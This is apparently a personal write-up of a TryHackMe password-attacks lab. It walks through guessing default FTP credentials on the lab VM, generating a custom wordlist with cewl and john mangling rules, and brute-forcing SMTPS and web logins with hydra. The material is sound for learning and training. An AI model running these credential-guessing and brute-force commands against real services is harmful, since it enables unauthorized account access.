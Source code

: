       - Login page path: ```login-get/index.php```.
      - Brute-force parameters: ```username=^USER^&password=^PASS^```. 
      - Stop brute-forcing attacks after finding valid username/password: ```-f```.

***#QUESTION 1:*** 
1. GUESS THE FTP CREDENTIAL...Sure. 
  - Use ftp to login to the server: 
    - ```ftp <attached vm ip>```
  - Use ftp default credentials: 
    - admin/admin; 
    - administrator/administrator; 
    - username/password
  - Look through the files: 
    - ```ls -a```
  - Get the flag.txt since you're unable to read it. 
    - ```get flag.txt```. 
  - Get out of ftp with: ```exit```. 
  - Read the file. 
***#QUESTION 2:*** 
1. ```Cewl``` the website: "https://clinic.thmredteam.com" to create your custom wordlist: 
   - ```cewl -m 8 -w <file name you want> <url you're pulling from>```
2. Append the ```john.conf``` file with the rule that created in Task 6: Az"[0-9][0-9]" ^[!@]
   - To append the john.conf file, open it with a text editor. I used nano: 
     - nano /etc/john/john.conf
     - I scrolled down to "#For Single Mode against fast hashes." You may be able to place this anywhere but I don't know exactly how it works so I put it with the out List Rules. 
     - Next, type: 
       - ```[List.Rules: <name of rule>]```
     - Then, your rule: 
       - ```Az"[0-9][0-9]" ^[!@]```
     - Save the file. 
3. Apply your rule to the wordlist you created: 
   - ```john --wordlist=./clinic.txt --rule=thm --stdout > clinic-rules.lst```

***#CEWL THE WEBSITE***

![cewl website](https://github.com/ryangreggw/THM-BOXES/assets/25268281/e3827077-c32f-4c9b-98bc-89ab58d36c9e)

***#EDIT JOHN.CONF WITH NEW RULE:***

![appending john conf](https://github.com/ryangreggw/THM-BOXES/assets/25268281/f0d8fb86-fb0c-4db9-8bf5-53424aa5ec56)

***#APPLY NEW RULE TO YOUR WORDLIST:***

![john adding rule](https://github.com/ryangreggw/THM-BOXES/assets/25268281/ef5b04aa-2700-4dff-b0e6-94e832e2b016)

***#UPDATED WORDLIST WITH THM PARAMETERS:***

![john rule applied](https://github.com/ryangreggw/THM-BOXES/assets/25268281/0983b5a7-678f-456c-aa74-56f8d32f4ed8)

4. Use the SMTP syntax that THM has provided, the command will go like this: 
   - ```hydra -l <email address> -P <path to your wordlist> smtp:<target ip> -v```
- For pittman's email, your command should look like this: 
  - ```hydra -l pittman@clinic.thmredteam.com -P clinic-rules.lst smtps://10.10.x.x```
